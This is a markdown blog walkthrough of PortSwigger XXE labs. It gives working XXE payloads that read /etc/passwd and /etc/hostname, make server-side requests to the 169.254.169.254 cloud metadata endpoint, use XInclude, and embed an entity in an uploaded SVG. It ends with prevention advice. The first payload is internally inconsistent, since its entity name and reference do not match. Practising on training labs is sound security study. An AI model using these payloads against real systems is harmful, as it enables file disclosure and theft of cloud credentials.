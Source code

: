 ```yaml
---
title: "XML external entity injection XXE"
date: 2025-05-15T16:06:04+01:00
draft: false
tags: ["Security", "XXE", "web", "Portswigger"]
categories: ["web"]
type: "portswigger"
description: "A practical walkthrough of XML External Entity (XXE) injection vulnerabilities using PortSwigger labs. Learn how attackers exploit XML parsers to access server files and sensitive data, with hands-on examples, payloads, and tips for detection and prevention."
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab

![](1.png)

Start Caido and look for the post request once you use the "checkstock" button on the website.

![](2a.png)

Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```

![](2.png)

![](3.png)


------

OKay 2nd Lab:

Start the lab and navigate to one of the products, click on the stock check button at the bottom. 

![](4.png)

Use this command after the external entry definition.

```<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>```

Then replace the ProductID with this:
``` &xxe;```

![](5.png)

Navigate through the servers file system ```169.254.169.254/latest/```

![](6.png)

Keep following until it pays out!

![](7.png)

------

Next Lab:

**XInclude attacks:**

Insert this call to the Xinclude library where the ProductID is:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](8.png)

**XXE attacks via file upload**

This one is a little harder. start by upload an .svg file as a post. Grab a common svg file like this from the webe

```
<svg xmlns="http://www.w3.org/2000/svg" version="1.1"
     width="120" height="120">
  <rect x="14" y="23" width="200" height="50" fill="lime"
      stroke="black" />
</svg>
```

Vim, paste and exit. 

![](9.png)

Upload it as a post then send the post to replay in Caido.

![](10.png)
![](11.png)


Now swap out the svg data for a something a little more malicious.

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
![](12.png)

Reload the page and look for your post. 

![](13.png)
You should now be able to right click on the post avatar(svg image) and open it in a new tap to read and enter the solution.

![](14.png)

![](15.png)

![](16.png)

**How to prevent XXE vulnerabilities**
Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.

Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities. - Postwigger -


